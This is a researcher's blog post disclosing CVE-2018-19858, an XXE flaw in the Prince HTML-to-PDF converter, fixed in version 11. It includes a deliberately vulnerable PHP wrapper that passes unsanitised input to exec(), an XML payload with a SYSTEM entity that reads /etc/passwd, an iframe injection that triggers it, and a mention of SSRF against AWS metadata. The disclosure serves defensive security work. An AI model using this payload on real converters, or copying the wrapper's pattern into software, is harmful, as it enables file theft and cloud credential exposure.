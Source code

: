 ```yaml
---
layout: post
title: "XSS to XXE in Prince v10 and below (CVE-2018-19858)"
author: Corben Leo
---
```

### Introduction:
This is a vulnerability I found while participating in a <a class="link" href="https://en.wikipedia.org/wiki/Bug_bounty_program"  target="_blank" rel="noopener noreferrer">bug-bounty program</a> earlier this year. It affects Prince, a software that converts "HTML, XHTML, or one of the many XML-based document formats" to PDF.

### Summary
Prince (versions 10 and below) is vulnerable to XML External Entities (XXE) due to the software processing XML with no protections against entities. This allows a remote attacker to gain file read, perform SSRF attacks, DOS, and more. This software is often used with a custom web wrapper that passes user-input into an HTML template which is then converted into a PDF. 

Due to this, it will ocassionally require an XSS in the wrapper – no proper sanitization of user-input before passing it into the HTML template that's being converted.

### Exploitation: 
Demo:
- `http://<server>/convert.php`

```php
<?php
$binary = "/usr/local/bin/prince";
if($_SERVER['REQUEST_METHOD'] == 'POST') {
  $content = $_POST['content'];
  $file = "/tmp/doc.html";
  $sf = fopen($file, 'w');
  fwrite($sf, $content);
  fclose($sf);
  exec($binary." /tmp/doc.html -o out.pdf");
  header('Location: /out.pdf');
} else {
	echo '
<html>
<head>
<title>Convert</title>
<style>
textarea {
  width: 500px;
  height: 300px;
}
</style>
</head>
<body>
	<textarea name="content" form="princeForm">Enter text here...</textarea>
        <form method="POST" action="/convert.php" id="princeForm">
        <input type="submit" value="Convert to PDF"></input>
        </form>
</body>
</html>
	';
}
?>
```


Host an XML file with the following contents:

```
<?xml version="1.0"?>
<!DOCTYPE cdl [<!ENTITY asd SYSTEM "file:///etc/passwd">]>
<cdl>&asd;</cdl>
```

Now give the converter the following HTML:

`<iframe src="http://<server>/xxe.xml">` 

Prince will then <b>retrieve</b> the url in the SRC attribute in an attempt to display the iframe, <b>process</b> the XML we provide, and then render the result in the converted PDF document:

![etcpasswd](/images/prince/passwd.png "Contents of Passwd")


We can exploit this XXE to get full-read SSRF by giving it a SYSTEM entity with a <b>URL</b> instead, such as the AWS metadata server:

![aws](/images/prince/ssrf.gif "AWS SSRF")

## outro:
This issue was fixed in Prince version 11 and was assigned the following CVE: <special>CVE-2018-19858</special>.
<br><br>
There's another vulnerability affecting Prince versions 12 and below that I'll write-up soon as soon as it's patched.
<br><br>
Thanks for reading,<br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/C0RB3N"  target="_blank" rel="noopener noreferrer">https://github.com/C0RB3N</a>

 